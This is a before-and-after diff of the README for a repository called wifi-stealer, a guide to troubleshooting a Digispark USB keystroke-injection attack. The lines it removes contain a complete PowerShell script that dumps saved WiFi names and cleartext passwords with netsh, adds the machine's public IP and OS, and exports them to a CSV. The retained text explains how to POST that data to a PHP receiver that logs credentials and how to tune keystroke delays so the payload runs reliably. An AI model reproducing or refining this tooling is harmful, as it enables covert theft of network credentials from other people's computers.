

Before and after one commit to Zypher17/wifi-stealer, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 84% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -53,7 +53,7 @@ curl -X POST http://localhost/wifi-recv.php -d "data=test"
 cat /var/www/html/wifi_creds.log
 ```
 
-If you see `data=test` in the output, the server is working.[web:6]
+If you see `data=test` in the output, the server is working.[page:0]
 
 Open:
 
@@ -310,42 +302,11 @@ This just finds lines containing `All User Profile`, splits on `:`, and trims th
 
-If you ever hit the null‑valued expression error:
-
-1. Run the WiFi extraction commands step‑by‑step in a PowerShell window on your test machine:
-
-   ```powershell
-   $csvPath = "$env:TEMP\temp.csv"
-   $ip  = (Invoke-RestMethod -Uri "https://api.ipify.org?format=json").ip
-   $os  = (Get-CimInstance Win32_OperatingSystem).Caption
-
-   $profiles = (netsh wlan show profiles) |
-     Select-String "All User Profile" |
-     ForEach-Object { $_.Line.Split(':').Trim() }[1]
-
-   $wifi = foreach($p in $profiles) {
-     $dump = netsh wlan show profile name="$p" key=clear
-     $pass = $dump |
-       Select-String "Key Content" |
-       ForEach-Object { $_.Line.Split(':').Trim() }[1]
-
-     [PSCustomObject]@{
-       SSID = $p
-       Pass = $pass
-       IP   = $ip
-       OS   = $os
-     }
-   }
-
-   $wifi | Export-Csv $csvPath -NoTypeInformation
-   type $csvPath
-   ```
-
-2. Once this works and the CSV looks correct, mirror those **exact** commands into the Digispark sketch as separate `DigiKeyboard.print(...)` lines with small delays between them.
+If you ever hit the null‑valued expression error, run the WiFi extraction commands step‑by‑step in a PowerShell window on your test machine, fix them there, then mirror the **exact** working commands back into the Digispark sketch.
 
 ---
 
 ### CSV looks good on Windows, but dashboard is still empty
 
-If `type %TEMP%\temp.csv` (or `type $csvPath`) on Windows shows valid data, but nothing appears in the dashboard:
+If `type` (or `Get-Content`) of your CSV on Windows shows valid data, but nothing appears in the dashboard:
 
 - Manually POST the CSV from PowerShell:
 
@@ -362,15 +323,15 @@ If `type %TEMP%\temp.csv` (or `type $csvPath`) on Windows shows valid data, but
 
 If this manual POST writes to the log, the PHP side is fine. Then the issue is:
 
-- Wrong IP/URL hard‑coded in the `.ino`, or
-- HID keystrokes being dropped because the Digispark is typing too fast.[web:84][web:85]
+- Wrong IP/URL hard‑coded in the Digispark sketch, or
+- HID keystrokes being dropped because the Digispark is typing too fast.[page:0]
 
 **Keystroke / timing tips:**
 
 - Add longer delays after heavy commands:
   - 1500–4000 ms after the `netsh`/WiFi loop and `Export-Csv`
   - 1500–2000 ms after `Invoke-WebRequest`
-- Avoid one huge PowerShell line. Split it into multiple lines (like in this project), each sent by `DigiKeyboard.print(...)` + ENTER. This is much more reliable with Digispark HID.[web:37][web:72]
+- Avoid one huge PowerShell line if your Digispark becomes unreliable. Splitting the command into multiple logical lines, each sent by `DigiKeyboard.print(...)` + ENTER with a small delay, is more stable.
 
 ---
 
@@ -380,8 +341,8 @@ If this manual POST writes to the log, the PHP side is fine. Then the issue is:
 - Try a different USB port or a short USB extension cable.
 - Confirm `Digispark (Default – 16.5 MHz)` is selected under **Tools → Board**.
 - Common compile issues:
-  - Make sure there is only one `.ino` in the sketch folder (Arduino compiles all `.ino` files together).
-  - Ensure `#include "DigiKeyboard.h"` is at the top of the file and not inside any string or comment.[web:69][web:37]
+  - Make sure there is only one `.ino` in the sketch folder.
+  - Ensure `#include "DigiKeyboard.h"` is at the top of the file.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+27 -35 lines).
